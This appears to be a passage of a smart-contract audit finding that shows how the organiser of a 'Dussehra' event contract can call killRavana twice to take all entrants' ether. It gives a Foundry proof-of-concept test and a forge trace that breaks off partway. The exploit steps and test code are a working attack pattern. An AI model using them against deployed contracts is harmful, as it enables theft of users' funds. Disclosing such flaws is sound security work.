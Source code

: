 1. Two participants (`player1` and `player2`) each send `1 ether` to the contract by calling the `enterPeopleWhoLikeRam` function, resulting in a total of `2 ether` collected by the contract.
2. The` organise`r waits until the event starts (simulated by `vm.warp` to move the block timestamp forward).
3. The `organiser` selects `Ram` by calling the `selectRamIfNotSelected` function.
4. The `organiser` calls the `killRavana` function twice. Each call calculates half of the remaining balance and transfers it to the `organiser`. Since the balance is not properly managed, both calls succeed, and the `organiser` ends up with the entire `2 ether`.
```solidity
function test_ifOrganiserCanStealAllMoney() external {
    vm.startPrank(player1);
    vm.deal(player1, 1 ether);
    dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
    vm.stopPrank();

    vm.startPrank(player2);
    vm.deal(player2, 1 ether);
    dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
    vm.stopPrank();

    vm.warp(1728691200 + 1);
    
    vm.startPrank(organiser);
    choosingRam.selectRamIfNotSelected();
    dussehra.killRavana();
    dussehra.killRavana();
    vm.stopPrank();

    assertEq(2 ether, organiser.balance);
}

```
Running the `test`, we can see `that` the test passes:
```
forge test --match-test test_ifOrganiserCanStealAllMoney -vvvv
[⠊] Compiling...
[⠒] Compiling 2 files with 0.8.20
[⠢] Solc 0.8.20 finished in 1.95s
Compiler run successful!

Ran 1 test for test/Dussehra.t.sol:CounterTest
[PASS] test_ifOrganiserCanStealAllMoney() (gas: 406243)
Traces:
  [406243] CounterTest::test_ifOrganiserCanStealAllMoney()
    ├─ [0] VM::startPrank(player1: [0x7026B763CBE7d4E72049EA67E89326432a50ef84])
    │   └─ ← [Return] 
    ├─ [0] VM::deal(player1: [0x7026B763CBE7d4E72049EA67E89326432a50ef84], 1000000000000000000 [1e18])
    │   └─ ← [Return] 
    ├─ [169497] Dussehra::enterPeopleWhoLikeRam{value: 1000000000000000000}()
    │   ├─ [94460] RamNFT::mintRamNFT(player1: [0x7026B763CBE7d4E72049EA67E89326432a50ef84])
    │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: player1: [0x7026B763CBE7d4E72049EA67E89326432a50ef84], tokenId: 0)
    │   │   └─ ← [Stop] 
    │   ├─ emit PeopleWhoLikeRamIsEntered(competitor: player1: [0x7026B763CBE7d4E72049EA67E89326432a50ef84])
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(player2: [0xEb0A3b7B96C1883858292F0039161abD287E3324])
    │   └─ ← [Return] 
    ├─ [0] VM::deal(player2: [0xEb0A3b7B96C1883858292F0039161abD287E3324], 1000000000000000000 [1e18])
    │   └─ ← [Return] 
```
